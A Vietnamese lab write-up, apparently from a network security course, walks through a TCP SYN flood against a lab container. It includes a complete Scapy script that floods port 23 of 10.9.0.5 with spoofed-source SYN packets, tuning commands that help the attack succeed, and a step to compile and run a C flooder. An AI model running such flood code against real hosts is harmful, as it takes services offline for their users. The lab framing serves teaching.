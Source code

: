 #### a. Task 1.1: Launching the Attack Using Python
    
- Đầu tiên ta thực hiện hoàn thiện đoạn code được cung cấp. Nội dung đoạn code sau khi hoàn thiện sẽ như sau :

    ```python
    #!/bin/env python3

    from scapy.all import IP, TCP, send
    from ipaddress import IPv4Address
    from random import getrandbits

    ip  = IP(dst="10.9.0.5")
    tcp = TCP(dport=23, flags='S')
    pkt = ip/tcp

    while True:
        pkt[IP].src    = str(IPv4Address(getrandbits(32)))
        pkt[TCP].sport = getrandbits(16)
        pkt[TCP].seq   = getrandbits(32)
        send(pkt, verbose = 0)

    ```
Đoạn code này thực hiện liên tục việc tạo ra các gói tin với thông tin src, sport và seq random đến cho địa chỉ IP 10.9.0.5 (tức victim) với dport=23 đây là port thông dụng của TCP và flags = 'S' tức là gửi gói SYN để thực hiện SYN flood attack. 

- Tiếp đến ta thực hiện đoạn code này trên terminal attacker và chờ đợi trong vòng 1 đến 2 phút để thực hiện tấn công SYN flood

    ![](https://i.imgur.com/lF1JgAc.png)

- Bây giờ ta sẽ thực hiện kiểm tra xem cuộc tấn công SYN flood có thành công không. Bằng cách thực hiện telnet từ container user1 đến victim.

    ![](https://i.imgur.com/4ya7DTa.png)

    Ta có thể thấy user1 không thể telnet đến victim chứng tỏ cuộc tấn công SYN flood của chúng ta đã thành công. Tuy nhiên nếu một số trường hợp cuộc tấn công không thành công thì bạn có thể thực hiện các câu lệnh sau.
    - `sysctl -w net.ipv4.tcp_max_syn_backlog=80` để chỉnh size của queue bằng 80.
    - `ip tcp_metrics flush` để xóa cache.
    
    Có thể thực hiện `netstat -nat` để có thể quan sát queue kỹ hơn để thấy rằng đoạn code trên thực hiện chính xác. Ở đây không có state nào là ESTABLISHED, chỉ toàn là SYN_RECV từ các địa chỉ random. Từ đó làm tràn queue dẫn đến việc user1 không thể telnet đến victim.
    
    ![](https://i.imgur.com/de9ZSnT.png)


#### b. Task 1.2: Launching the Attack Using C

- Các vấn đề ở task 1.1 (ngoài vấn đề cache) sẽ đều có thể giải quyết khi ta dùng ngôn ngữ C vì nó có thể gửi spoof packet một cách nhanh chóng hơn python.

- Thực hiện biên dịch file `synflood.c` bằng câu lệnh `gcc synflood.c -o synflood` và chạy file thực thi `./synflood 10.9.0.5 23` ở terminal attacker.
